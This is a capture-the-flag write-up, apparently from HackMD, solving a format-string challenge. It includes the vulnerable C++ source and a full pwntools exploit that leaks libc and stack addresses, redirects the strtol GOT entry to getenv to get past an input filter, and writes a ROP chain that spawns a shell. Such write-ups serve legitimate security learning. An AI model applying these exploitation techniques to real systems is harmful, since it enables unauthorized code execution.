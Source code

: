 We have the binary, source and libc. Source:

```cpp
#include <cstdio>
#include <stdlib.h>


bool check(char* s) {
    char tmp[384] = {0};
    int i = 0, j = 0, cnt = 0;     
    bool run = false;

    for (; i < 384; i++) {
        j = 0;
        if (s[i] != '%') continue;       

        cnt += 1;                          
        i += 1; 
        if (s[i] == '0') {         // 
            // don't waste space!!
            return false;
        }

        while (s[i] >= '0' && s[i] <= '9') {      
            tmp[j] = s[i];                         
            i += 1;                                 
            j += 1;     
        }

        if (j <= 1) {                              
            return false; 
        }

        tmp[j] = 0;                                 
        int fmt_val = strtol(tmp, (char**)(&tmp), 10);    
        if (fmt_val >= 58) {                                
            return false;
        }

    }
    return true;
}

int main(int argc, char** argv, char** envp) {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    char s[384] = {0,};
    while(1) {
        printf(">> ");
        fgets(s, 384, stdin);
        if (check(s)) printf(s);
        else break;
    }
    return 0;
}

// gcc chall.cpp -o chall -O0 -Wno-format-security -Wl,-z,relro,-z,lazy -no-pie
```

There is a FormatString bug here 

![image](https://hackmd.io/_uploads/H17KDShmye.png)

But before that, our input must go through a filter `check()`. 
- Maximum of our payload is 384. 
- If there is no `%` in our string, it returns true
- Else, it starting saving any number after `%` to `tmp` array. And if it starts with any character, not in range [0, 9], it will return false. And our string after `%` must not start with 0. And if the number in `tmp` greater than 58, it returns false. 
Summary: Our input must contain `%{n}...` which n in range [10, 57]. 

So first, let's leak the base address of libc. 

![image](https://hackmd.io/_uploads/HyOPKr37yx.png)

After leaking libc, we need somehow bypass the check so we can overwrite the `ret` address of main. But we don't need the value in `ret` address because it just the address of libc. We need to leak stack so we can overwrite it to our ROPchain

![image](https://hackmd.io/_uploads/SJ0coH2m1g.png)

This address is a address of stack : `0x00007fffffffe498`. Find it offset: 

![image](https://hackmd.io/_uploads/S1qCkLnmkl.png)

But in the program, i use `66` but it return (nil), so i change to `65` and it works. I dont know why? 
But now we must bypass the `check()` so we can leak the value in `%65$p`. We can overwrite the `strtol` GOT to `getenv`, so when it calls `strtol`, it will return null, then we can bypass the `fmt_val >= 58`. We also need some padding to write exactly where we want. 

Script: 
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chall_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("addr", 1337)

    return r


def main():
    r = conn()
    input()
    # Leak libc address
    r.sendlineafter(b'>> ',b'%11$s\0\0\0' + p64(0x404030))
    libc_leak = u64(r.recv(6) + b'\0\0')
    info('Libc leak: ' + hex(libc_leak))
    libc.address = libc_leak - libc.sym['strtol']
    info('Libc address: ' + hex(libc.address))
    pause()
    def padding(string, l):
        while len(string) < l:
            string += b'A'
        return string
    def overwrite(start_addr, value):
        arr = []
        for i in range(8):
            arr.append((start_addr + i, value & 0xff))
            value >>= 8
        arr = sorted(arr, key=lambda x:x[1])
        info('Array of overwriting value and address: ')
        print(arr)
        payload = b''
        count = 0
        index = 49
        for adrr,val in arr:
            payload += b'A'*(val - count) + f'%{index}$hhn'.encode()
            count = val
            index += 1
        payload = padding(payload, 312)
        for addr, _ in arr: 
            payload += p64(addr)
        r.sendlineafter(b'>> ', payload)

    getenv = libc.sym['getenv']
    system = libc.sym['system']
    binsh = next(libc.search('/bin/sh\0'))
    poprdi = libc.address + 0x000000000002a3e5
    ret = poprdi + 1
    strtol_got = exe.got['strtol']
    info('Getenv address: ' + hex(getenv))
    info('System address: ' + hex(system))
    info('/bin/sh address: ' + hex(binsh))
    info('Ret address: ' + hex(ret))
    info('strtol got: ' + hex(strtol_got))

    overwrite(strtol_got, getenv)
    r.sendlineafter(b'>> ', b'%65$p')
    stack_leak = int(r.recv(14),16)
    info('Stack leak: ' + hex(stack_leak))
    rop_start_addr = stack_leak - 0x110
    info('rop start address: ' + hex(rop_start_addr))
    pause()
    overwrite(rop_start_addr, poprdi)
    overwrite(rop_start_addr + 8, binsh)
    overwrite(rop_start_addr + 16, ret)
    overwrite(rop_start_addr + 24, system)

    overwrite(exe.got['strtol'], libc.sym['strtol'])
    r.sendlineafter(b'>> ', b'%58$p')
    pause()
    # good luck pwning :)

    r.interactive()


if __name__ == "__main__":
    main()

```
Sometimes the script doesn't work, but sometime it will pop the shell

![image](https://hackmd.io/_uploads/BJJWWLnQyx.png)

![image](https://hackmd.io/_uploads/HJKZWLnQyl.png)
